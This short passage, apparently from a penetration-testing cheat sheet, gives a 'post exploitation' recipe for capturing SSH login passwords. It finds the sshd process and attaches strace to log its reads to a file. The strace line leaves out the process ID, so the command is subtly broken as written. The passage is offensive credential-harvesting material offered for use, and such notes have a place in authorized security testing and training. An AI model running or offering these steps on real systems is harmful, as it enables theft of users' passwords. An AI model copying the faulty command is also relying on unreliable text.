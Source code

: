 ## Post Exploitation
Dump Passwords from Memory\
**Use Case**: If it is observed a user is regularly logging into a device (possibly automated script)
```
# Identify ssh daemon process id
ps aux |grep sshd
# Use strace to dump memory
strace -f -e read -p -qq -o brok3n_log
```

